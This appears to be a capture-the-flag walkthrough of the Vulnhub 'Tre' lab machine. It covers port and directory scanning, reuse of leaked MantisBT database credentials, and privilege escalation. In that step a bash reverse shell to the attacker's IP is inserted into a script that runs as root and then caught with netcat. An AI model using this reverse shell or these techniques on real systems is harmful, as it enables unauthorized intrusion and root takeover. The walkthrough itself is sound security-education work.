 ```yaml
---
title: Vulnhub - Tre Writeup
description: My writeup on tre box.
categories:
 - vulnhub
tags: vulnhub
---
```


Hi all, this one was a tricky one. Let's pwn it!

You can find the machine there > [Tre](https://www.vulnhub.com/entry/tre-1,483/){:target="_blank"}

Let's start as always with a nmap scan.

```bash
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 23:55 EEST
Nmap scan report for tre.zte.com.cn (192.168.1.9)
Host is up (0.0018s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
MAC Address: 00:0C:29:7A:79:76 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start the enumeration with port 80, this time we will use the [raft](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt){:target="_blank"} wordlist.

```bash
$ gobuster dir -q -u http://$ip/ -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,html,txt -o gobuster.txt
/cms (Status: 301)
/system (Status: 401)
/info.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
/mantisbt (Status: 301) <-----
/adminer.php (Status: 200)
```

`/mantisbt` seems interesting, let's run `gobuster` on it.

```bash
$ gobuster dir -q -u http://$ip/mantisbt/ -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,html,txt -o gobuster.txt
/admin (Status: 301)
/js (Status: 301)
/images (Status: 301)
/scripts (Status: 301)
/plugins (Status: 301)
/css (Status: 301)
/search.php (Status: 302)
/api (Status: 301)
/config (Status: 301) <---
```

`/config` sounds interesting, let's dig into it. When we visit `/config` we can see this `.txt` file :

![](https://i.ibb.co/YdzNkyx/Screenshot-1.png)

This `.txt` file has some database configuration data.

```
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

We can use them on `/adminer.php`

![](https://i.ibb.co/Hg7ZBh8/Screenshot-2.png)

After we can see there the `mantis_user_table`, this table has some creds in that we can use them on ssh.

![](https://i.ibb.co/YXctTpH/Screenshot-3.png)

And we're in!

```bash
$ ssh tre@$ip
tre@192.168.1.9's password: 
tre@tre:~$ 
```

Now privesc, its a bit tricky! Took me a while to figure it out.

If we check `sudo -l`, we can see this :

```bash
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

We can run `/sbin/shutdown` as root, hm.. `shutdown` system binary shutdowns the system like `poweroff` useless right ?

If we run `file` on it we can see this :

```bash
tre@tre:~$ file /sbin/shutdown
/sbin/shutdown: symbolic link to /bin/systemctl
```

`shutdown` has symlink to `systemctl` :

```bash
tre@tre:~$ ls -la /sbin/shutdown
lrwxrwxrwx 1 root root 14 Apr 27 13:02 /sbin/shutdown -> /bin/systemctl
```

With `systemctl` we can start/stop/restart a service!

```bash
sudo systemctl start apache2.service
```

If we run now [pspy](https://github.com/DominicBreuker/pspy) we can see this :

```
tre@tre:/tmp$ chmod +x pspy64
tre@tre:/tmp$ ./pspy64 -p -i 1000
...
2020/05/20 17:38:21 CMD: UID=0    PID=3609   | /bin/bash /usr/bin/check-system
```

Every 1 second this file executed as root & we can edit! The content of this file :

```bash
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

This file checking when service started, we can add our reverse shell in & when we execute `/sbin/shutdown` this will execute `/bin/systemctl` and we will start the service so we will get a root shell!

```bash
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
bash -i >& /dev/tcp/192.168.1.13/5555 0>&1
echo "Checking...";
sleep 1;
done
```

Let's execute it now!

```bash
tre@tre:/tmp$ sudo /sbin/shutdown now
tre@tre:/tmp$ Connection to 192.168.1.9 closed by remote host.
Connection to 192.168.1.9 closed.
```

Before you boot the machine again open a `nc` listener.

And we have root shell!

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
root@tre:/# cat /root/root.txt
cat /root/root.txt
{SunCSR_Tr3_Viet_Nam_2020}
root@tre:/# 
```

What a box :), See you!
